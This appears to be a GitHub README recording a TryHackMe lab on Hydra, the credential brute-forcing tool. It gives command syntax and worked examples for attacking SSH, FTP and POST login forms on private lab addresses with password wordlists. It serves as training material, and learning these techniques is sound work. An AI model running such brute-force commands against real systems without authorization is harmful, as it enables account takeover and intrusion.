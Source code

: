 
````markdown
# 🐉 Hydra – Credential Brute-Forcing Lab

## 📄 Overview
This lab from TryHackMe demonstrates the use of **Hydra**, a tool for brute-forcing credentials on various authentication services such as **SSH, FTP, SNMP, and web applications**.  
It was completed in a controlled, authorized environment as part of my hands-on cybersecurity training.

---

## 📌 Objective
- Learn how to perform credential brute-forcing on multiple protocols.
- Understand Hydra syntax and its key options.
- Practice attacking SSH, FTP, and POST-based web forms.
- Interpret failed login responses for successful automation.

---

## 🛠 Tools Used
- **Hydra** – Credential brute-force tool  
- **Wordlists** – For testing possible passwords  
- **Kali Linux** – Attack platform  

---

## 🔍 Commands & Usage

### FTP
```bash
hydra -l user -P <filename> ftp://<IP_ADDRESS>
````

### SSH

```bash
hydra -l <username> -P <wordlist> <IP_ADDRESS> -t 4 ssh
```

**Options:**

* `-l` → Single username
* `-P` → Password list
* `-t` → Number of threads

---

## 🌐 POST Web Form

**Syntax:**

```bash
sudo hydra <username> -P <wordlist> <IP_ADDRESS> \
http-post-form "/<path>:username=^USER^&password=^PASS^:<invalid_response>" -v
```

**Parameters:**

* `http-post-form` → Indicates POST request type
* `<path>` → Login page URL path
* `<login_credentials>` → Fields for username and password
* `<invalid_response>` → Response text when login fails
* `-v` → Verbose mode

---

**1. SSH Brute Force**

```bash
hydra -l admin -P passwords.txt 10.10.10.5 -t 4 ssh
```

**2. FTP Brute Force**

```bash
hydra -l testuser -P rockyou.txt ftp://10.10.10.8
```

**3. Web Form Brute Force**

```bash
hydra -l admin -P wordlist.txt 10.10.10.6 \
http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -v
```

---

## 📚 What I Learned

* How to configure and execute Hydra attacks on multiple services.
* The importance of selecting efficient **wordlists**.
* How to identify **failure messages** for web form brute-forcing.
* Balancing speed and detection with the `-t` option.
* Reinforcing the principle of **ethical hacking**: only perform testing in authorized environments.

---



